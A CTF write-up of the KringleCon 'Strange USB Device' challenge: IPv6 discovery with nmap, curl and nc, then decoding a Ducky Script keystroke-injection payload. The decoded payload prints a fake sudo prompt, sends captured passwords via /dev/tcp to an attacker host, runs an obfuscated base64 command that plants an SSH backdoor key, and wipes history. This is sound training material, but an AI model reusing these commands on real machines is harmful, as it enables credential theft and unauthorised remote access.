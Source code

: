 # Challenge 5: Strange USB Device

> Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

## The Hint

Speaking with Jewel, we get the following:

> Well hello! I'm Jewel Loggins.
>
> I have to say though, I'm a bit distressed.
>
> The con next door? Oh sure, I’m concerned about that too, but I was talking about the issues I’m having with IPv6.
>
> I mean, I know it's an old protocol now, but I've just never checked it out.
>
> So now I'm trying to do simple things like Nmap and cURL using IPv6, and I can't quite get them working!
>
> Would you mind taking a look for me on this terminal?
>
> I think there's a Github Gist that covers tool usage with IPv6 targets.
>
> The tricky parts are knowing when to use [] around IPv6 addresses and where to specify the source interface.
>
> I’ve got a deal for you. If you show me how to solve this terminal, I’ll provide you with some nice tips about a topic I’ve been researching a lot lately – Ducky Scripts! They can be really interesting and fun!

Jumping into the terminal, we get the following prompt:

```bash
Tools:

* netcat
* nmap
* ping / ping6
* curl

Welcome, Kringlecon attendee! The candy striper is running as a service on                    
this terminal, but I can't remember the password. Like a sticky note under the                
keyboard, I put the password on another machine in this network. Problem is: I                
don't have the IP address of that other host.

Please do what you can to help me out. Find the other machine, retrieve the                   
password, and enter it into the Candy Striper in the pane above. I know you                   
can get it running again!
```

Let's check to see what our ipv6 address is, and then send a multicast ping to see what other systems are on our
network:

```bash
elf@245aa314480f:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000   
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                                     
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
1196: eth0@if1197: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:c0:a8:a0:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0                         
    inet 192.168.160.3/20 brd 192.168.175.255 scope global eth0                               
       valid_lft forever preferred_lft forever
    inet6 2604:6000:1528:cd:d55a:f8a7:d30a:2/112 scope global nodad                           
       valid_lft forever preferred_lft forever
    inet6 fe80::42:c0ff:fea8:a003/64 scope link                                               
       valid_lft forever preferred_lft forever
elf@245aa314480f:~$ ping6 ff02::1 -c2
PING ff02::1(ff02::1) 56 data bytes
64 bytes from fe80::42:c0ff:fea8:a003%eth0: icmp_seq=1 ttl=64 time=0.035 ms                   
64 bytes from fe80::42:ebff:fe17:d854%eth0: icmp_seq=1 ttl=64 time=0.112 ms (DUP!)            
64 bytes from fe80::42:c0ff:fea8:a002%eth0: icmp_seq=1 ttl=64 time=0.124 ms (DUP!)            
64 bytes from fe80::42:c0ff:fea8:a003%eth0: icmp_seq=2 ttl=64 time=0.037 ms                   

--- ff02::1 ping statistics ---
2 packets transmitted, 2 received, +2 duplicates, 0% packet loss, time 6ms                    
rtt min/avg/max/mdev = 0.035/0.077/0.124/0.041 ms
```

We can see that we are `fe80::42:c0ff:fea8:a003`, so we can rule those entries out as targets. We can see another IP
that's close to ours: `fe80::42:c0ff:fea8:a002%eth0` which makes it a good target. Let's run an `nmap` scan:

```bash
elf@245aa314480f:~$ nmap -6 fe80::42:c0ff:fea8:a002%eth0
Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-21 17:09 UTC
Nmap scan report for fe80::42:c0ff:fea8:a002
Host is up (0.000088s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

We can see that port 80 is open - let's curl it and see what we get back:

```bash
elf@245aa314480f:~$ curl http://[fe80::42:c0ff:fea8:a002] --interface eth0
<html>
<head><title>Candy Striper v6</title></head>
<body>
<marquee>Connect to the other open TCP port to get the striper's activation phrase!</marquee>
</body>
</html>
```

We can connect to the other port with `nc` to retrieve the passphrase:

```bash
elf@245aa314480f:~$ nc -6 fe80::42:c0ff:fea8:a002%eth0 9000
PieceOnEarth
```

Once complete, here's what Jewel has to say:

> Great work! It seems simpler now that I've seen it once. Thanks for showing me!
>
> Prof. Petabyte warned us about random USB devices. They might be malicious keystroke injectors!
>
> A troll could program a keystroke injector to deliver malicious keystrokes when it is plugged in.
>
> Ducky Script is a language used to specify those keystrokes.
>
> What commands would a troll try to run on our workstations?
>
> I heard that SSH keys can be used as backdoors. Maybe that's useful?

## The Main Challenge

The USB device in question can be found by heading throug the doorway at the far left of the Santa Talks floor.
Accessing the terminal gives the following prompt:

```bash
A random USB device, oh what could be the matter?
It seems a troll has left this, right on a silver platter.
Oh my friend I need your ken, this does not smell of attar.
Help solve this challenge quick quick, I shall offer no more natter.

Evaluate the USB data in /mnt/USBDEVICE.


elf@8cf4fe6a23da:~$
```

Listing the contents of our directory, we see we have access to `mallard.py` which seems to be a script to help with
evaluating duckscript binaries:

```bash
elf@d1717fa474ab:~$ ls -l
total 12
-rwxr-xr-x 1 root root 8802 Nov 30 22:14 mallard.py*
elf@d1717fa474ab:~$ ./mallard.py 
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
  --no_analyze, -A      Include this switch to turn off analysis of the duckyfile
  --output_file OUTPUT_FILE, -o OUTPUT_FILE
                        File to save decoded ducky script to. Default will print duckyfile to
                        screen.
  --analysis_file ANALYSIS_FILE
                        Location to output analysis. Default will print analysis to screen.
  --debug               Enable Debug Logging.
 
```

Let's run it against the `USBDEVICE`:

```bash
elf@d1717fa474ab:~$ ./mallard.py -f /mnt/USBDEVICE/inject.bin -o out                           
ENTER                                                                                          
DELAY 1000                                                                                     
GUI SPACE                                                                                      
DELAY 500                                                                                      
STRING terminal                                                                                
ENTER                                                                                          
DELAY 500                                                                                      
GUI -                                                                                          
GUI -                                                                                          
GUI -                                                                                          
GUI -                                                                                          
GUI -                                                                                          
STRING  /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@ 
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo                                                                                    
ENTER                                                                                          
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null                                         
ENTER                                                                                          
STRING if [ $? -eq 1 ]                                                                         
ENTER                                                                                          
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

We get what appears to be the original Ducky Script. The script seems to be generating a fake sudo prompt, capturing the
target users' sudo credentials, and sending them to a malicious site. Towards to bottom, we see what looks like a
reversed base64 encoded string that gets piped to `rev`, then `base64 -d` to decode, and finally `bash` to execute. We
can run this command in a bash terminal, minus the pipe to `bash`, to retrieve its contents:

```
$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

The device adds a malicious ssh key to the authorized keys list for backdoor access to the victims system. This key
includes the answer to the challenge `ickymcgoop`. 
